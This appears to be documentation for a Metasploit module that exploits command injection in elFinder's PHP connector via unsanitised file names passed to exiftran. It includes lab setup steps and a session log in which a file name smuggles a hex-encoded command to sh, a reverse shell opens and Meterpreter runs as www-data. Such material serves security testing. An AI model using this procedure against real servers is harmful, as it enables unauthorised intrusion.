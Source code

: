 ## Description

  This module exploits a command injection vulnerability in elFinder
  versions prior to 2.1.48.

  The PHP connector component allows unauthenticated users to upload
  files and perform file modification operations, such as resizing and
  rotation of an image. The file name of uploaded files is not validated,
  allowing shell metacharacters.

  When performing image operations on JPEG files, the filename is passed
  to the `exiftran` utility without appropriate sanitization, causing
  shell commands in the file name to be executed, resulting in remote
  command injection as the web server user.

  The PHP connector is not enabled by default.

  The system must have `exiftran` installed and in `$PATH`.


## Vulnerable Software

  [elFinder](https://studio-42.github.io/elFinder/) is an open-source file
  manager for web, written in JavaScript using jQuery and jQuery UI.

  This module has been tested successfully on elFinder versions 2.1.47,
  2.1.20 and 2.1.16 on Ubuntu.

  Enable the PHP connector:

  ```
  mv php/connector.minimal.php-dist php/connector.minimal.php
  ```

  Install required `exiftran` utility:

  ```
  apt-get install exiftran
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection`
  3. Do: `set rhosts <IP>`
  4. Do: `run`
  5. You should get a new session

## Options

  **TARGETURI**

  The base path to elFinder (default: `/elFinder/`)


## Scenarios

  ```
  msf > use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection 
  msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set rhosts 172.16.191.253
  rhosts => 172.16.191.253
  msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set targeturi /elFinder-2.1.47
  targeturi => /elFinder-2.1.47
  msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set verbose true
  verbose => true
  msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > check
  [*] 172.16.191.253:80 - The target service is running, but could not be validated.
  msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run
  
  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Uploading payload 'CDj7j1.jpg;echo 6370202e2e2f66696c65732f43446a376a312e6a70672a6563686f2a202e6b50555871684d5a2e706870 |xxd -r -p |sh& #.jpg' (1894 bytes)
  [*] Triggering vulnerability via image rotation ...
  [*] Executing payload (/elFinder-2.1.47/php/.kPUXqhMZ.php) ...
  [*] Sending stage (38247 bytes) to 172.16.191.253
  [*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.253:35564) at 2019-03-08 21:57:18 -0500
  [!] Tried to delete .kPUXqhMZ.php, unknown result
  [*] No reply
  [*] Removing uploaded file ...
  [+] Deleted uploaded file
  
  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > sysinfo
  Computer    : ubuntu
  OS          : Linux ubuntu 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
  Meterpreter : php/linux
  meterpreter > 
  ```

